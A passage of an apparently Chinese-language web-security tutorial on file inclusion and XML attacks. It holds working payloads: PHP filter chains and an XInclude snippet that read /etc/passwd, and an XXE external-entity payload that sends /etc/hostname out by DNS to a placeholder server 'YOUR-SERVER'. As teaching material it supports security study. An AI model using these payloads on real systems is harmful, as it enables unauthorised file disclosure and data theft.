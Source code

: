    返回的内容需要base64解码才能得到原始内容。

3. **使用多种过滤器组合**：

   ```
   // 多重过滤器组合
   include('php://filter/convert.base64-encode|convert.base64-decode/resource=/etc/passwd');
   ```

### 8. XML 包含  | XInclude

**目标**

当XML数据被嵌入到后端文档时，利用XInclude读取文件。

**解题步骤**

1. 在输入中插入XInclude：

   ```
   <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/>
   </foo>
   ```

**关键点**

- **XInclude特性**：允许直接引用外部资源，无需DTD。
- **适用场景**：当无法控制DOCTYPE但能注入XML片段时。

###  9. 内部DTD | 无回显 | HTTP不出网 | DNS外带

**目标**

无HTTP出站时，通过DNS请求泄露数据。

**解题步骤**

1. 构造恶意DTD触发DNS查询：

   ```
   <!DOCTYPE foo [
     <!ENTITY % file SYSTEM "file:///etc/hostname">
     <!ENTITY % oob "<!ENTITY &#x25; exfil SYSTEM 'http://%file;.YOUR-SERVER/'>">
     %oob;
     %exfil;
   ]>
   ```

2. 在DNS日志中查看子域名（如 `webserver.YOUR-SERVER`）。

**关键点**

- **DNS外带**：适用于严格HTTP过滤的环境。
- **数据编码**：将文件内容作为子域名发送。

### 10. 无回显 | 禁用外部DTD | 覆盖内部已知DTD

**目标**
